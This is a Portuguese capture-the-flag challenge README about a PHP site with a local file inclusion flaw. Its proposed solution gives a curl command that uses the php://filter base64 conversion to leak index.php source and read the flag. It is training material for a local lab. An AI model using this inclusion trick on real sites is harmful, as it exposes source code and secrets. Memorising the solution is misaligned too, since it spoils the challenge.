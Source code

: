 # Tudo Nada Filtrado

Responsável: Fukuda

Tags: `web`, `php_filter`, `lfi`

## Desafio

Tem um site que gerencia seu conteúdo através de um parâmetro na URL. Modificando da para perceber que ele pega um arquivo através de um `include()`.

## Resolução proposta

Pegar o código fonte do `index.php` utilizando um *php conversion filter*. Ficaria algo assim: `curl 'http://localhost:47200/index.php?pagina=php://filter/convert.base64-encode/resource=index'`.

Depois é preciso pegar o resultado em base64 e passar em um decodificador assim: `base64 -d <<<'resultado_em_base64'`.

A flag vai estar em uma variável com o nome `$flag`.

## Como rodar

```sh
make start
```

O servidor vai estar rodando em `http://localhost:47200/`.
